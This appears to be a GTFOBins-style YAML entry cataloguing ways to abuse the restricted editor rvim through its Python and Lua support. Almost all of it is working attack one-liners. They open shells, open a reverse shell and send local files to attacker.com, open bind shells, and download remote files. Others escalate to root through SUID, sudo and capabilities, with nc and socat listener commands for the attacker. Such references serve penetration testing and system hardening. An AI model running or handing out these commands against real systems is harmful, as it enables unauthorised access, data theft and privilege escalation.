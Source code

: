 ```yaml
---
functions:
  shell:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `rvim` is compiled with Lua support.
      code: rvim -c ':lua os.execute("reset; exec sh")'
  reverse-shell:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        rvim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        vim.command(":q!")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        rvim -c ':lua local s=require("socket"); local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        rvim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        rvim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        rvim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        rvim -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        rvim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        rvim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: |
        rvim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: rvim file_to_read
  library-load:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: rvim -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
  suid:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./rvim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `rvim` is compiled with Lua support.
      code: sudo rvim -c ':lua os.execute("reset; exec sh")'
  capabilities:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  limited-suid:
    - description: This requires that `rvim` is compiled with Lua support.
      code: ./rvim -c ':lua os.execute("reset; exec sh")'
---
```

